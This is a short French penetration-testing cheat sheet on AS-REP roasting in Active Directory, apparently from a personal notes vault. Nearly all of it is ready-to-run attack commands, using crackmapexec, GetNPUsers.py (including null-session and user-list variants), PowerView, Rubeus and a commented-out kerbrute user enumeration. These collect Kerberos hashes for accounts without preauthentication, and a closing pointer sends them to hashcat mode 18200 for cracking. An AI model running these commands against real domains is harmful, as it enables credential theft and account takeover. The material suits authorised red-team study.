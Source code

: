 ```yaml
---
public: true # set to true to make the article publishable
---
```


Nécessite une authentification LDAP valide

Obtention de la liste des utilisateurs n'ayant pas besoin de préauthentifaction.

Après obtention de cette liste, on pourra tenter de casser les mots de passe des utilisateurs.

## A distance

```powershell
crackmapexec ldap  $TARGET -u "$AD_USER" -p "$AD_PASSWORD" --asreproast asrep.txt

# NULL SESSION
GetNPUsers.py "$DOMAIN/" -dc-ip $TARGET -request -outputfile ASREProastables.txt


# Sans authentification
GetNPUsers.py -usersfile users-valid.txt -dc-ip $TARGET -dc-host $DC_HOST $DOMAIN/ -outputfile asreproastable.txt -format hashcat

proxychains -q GetNPUsers.py -hashes "$PASSWORD" -dc-ip "$DC" "$DOMAIN/$USER" -debug

# Powerview
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

# A VERIFIER NE SEMBLE RIN AVOIR 0 FAIRE ICI
# kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 


```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
